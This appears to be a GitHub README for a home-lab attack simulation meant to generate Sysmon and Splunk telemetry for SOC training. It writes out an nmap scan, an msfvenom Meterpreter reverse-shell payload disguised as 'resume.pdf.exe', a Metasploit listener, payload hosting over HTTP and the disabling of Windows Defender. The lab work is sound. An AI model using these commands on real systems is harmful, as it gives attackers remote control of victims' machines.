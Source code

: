 # Home Lab Attack Simulation & Telemetry Generation
<p>This project was designed as a simulation of a real-world cyberattack, conducted in a virtual lab environment. Its primary goal is to demonstrate how endpoint telemetry can be generated, collected, and analyzed using widely available tools such as Sysmon and Splunk. This project helped me gain hands-on experience with attacker techniques, logging mechanisms, and security monitoring—all of which are essential for working in a SOC environment.</p>

# Prerequisites
<ul>
  <li>Kali Linux – As the attacker machine</li>
  <li>Windows 10 – As the target machine</li>
  <li>Splunk must be installed on the Windows VM.</li>
  <li>Sysmon must be installed using the Splunk Add-on for Sysmon and configured on the Windows VM to generate detailed logs</li>
</ul>

# Simulation
<p>To set up the lab, I used VirtualBox to run two virtual machines: Kali Linux (as the attacker) and Windows 10 (as the target). Both VMs were configured to use an "Internal Network" mode in VirtualBox to ensure isolated communication within the same virtual network. This configuration prevents interaction with the outside internet while allowing both machines to communicate securely.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/%F0%9F%9B%A1%EF%B8%8F%20Home%20Lab%20Attack%20Simulation%20&%20Telemetry%20Generation%20-%20visual%20selection.png?raw=true">
</p>

<p>To ensure stable communication and easier referencing, each virtual machine was assigned a static IP address. Kali Linux was configured with an IP address such as 192.168.56.100, while Windows 10 was assigned 192.168.56.110. These IPs fall within the same subnet and enable consistent access throughout the simulation. This setup ensures that tools like Nmap and Metasploit can reliably interact with the Windows VM during reconnaissance and exploitation.</p>

<p>The simulation begins with reconnaissance. Using Kali Linux, I performed a network scan with Nmap to discover open ports and services on the Windows target.</p>
<pre>
  nmap -A 192.168.56.110 -Pn
</pre>
<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Nmap.png?raw=true">
</p>
<ul>
  <p>The scan identified multiple open ports, including:</p>
  <li>135/tcp (Microsoft RPC)</li>
  <li>139/tcp (NetBIOS-SSN)</li>
  <li>445/tcp (Microsoft-DS)</li>
  <li>8000/tcp (Splunkd HTTP interface)</li>
  <li>8089/tcp (Splunkd management port)</li>
</ul>

<p>Next, I used msfvenom to generate a simple Meterpreter reverse shell payload:</p>

<pre>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.100 lport=4444 -f exe -o resume.pdf.exe</pre>

<p>This creates an executable file named resume.pdf.exe that, when executed, will attempt to connect back to the Kali Linux machine on port 4444.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Msfvenom.png?raw=true">
</p>

<p>I then set up a listener in Metasploit to catch the reverse shell:</p>
<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/msf6%20exploit.png?raw=true">
</p>
<pre>
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.100
set LPORT 4444
exploit
</pre>

<p>To deliver the payload, I hosted it using a Python HTTP server:</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Hosting%20.png?raw=true">
</p>

<pre>python3 -m http.server 9999</pre>

<p>After disabling Windows Defender for this test, I downloaded and executed the payload on the Windows VM.</p>
<p>I confirmed the reverse connection using the following command:</p>
<pre>netstat -anob</pre>
